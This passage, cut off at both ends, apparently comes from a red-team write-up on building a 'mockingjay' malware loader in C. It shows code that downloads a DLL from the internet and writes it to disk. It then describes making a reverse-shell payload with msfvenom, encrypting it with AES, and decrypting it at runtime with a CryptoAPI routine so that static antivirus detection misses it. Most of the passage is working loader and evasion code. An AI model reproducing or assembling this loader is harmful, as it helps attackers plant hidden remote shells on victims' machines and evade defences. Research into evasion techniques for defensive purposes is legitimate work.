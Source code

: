 ```C

    // Reading the DLL bytes and writing to the local file
    BYTE buffer[1024];
    DWORD bytesRead;

    while (InternetReadFile(hInternetFile, buffer, sizeof(buffer), &bytesRead) && bytesRead > 0) {
        DWORD bytesWritten;
        WriteFile(hFile, buffer, bytesRead, &bytesWritten, NULL);
    }
    printf("\t[i] File saved to %s\n", savePath);

    CloseHandle(hFile);

    InternetCloseHandle(hInternet);
    InternetCloseHandle(hInternetFile);
    
    return TRUE;
}
```

### Payload
Next, I generated a reverse shell shellcode using Metasploit msfvenom and then used the python script [bintoaes.py](https://gist.github.com/caueb/6fa10a0c95fb2ac7b694771354822eff) to encrypt the shellcode using AES.
![](imgs/mockingjay/img01.png)

The payload is going to be decrypted at runtime using this function (borrowed from reenz0h @SEKTOR7net) to avoid static detections on Metasploit shellcode:
```C
int AESDecrypt(char* payload, unsigned int payload_len, char* key, size_t keylen) {
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
        return -1;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
        return -1;
    }
    if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) {
        return -1;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
        return -1;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)payload, (DWORD*)&payload_len)) {
```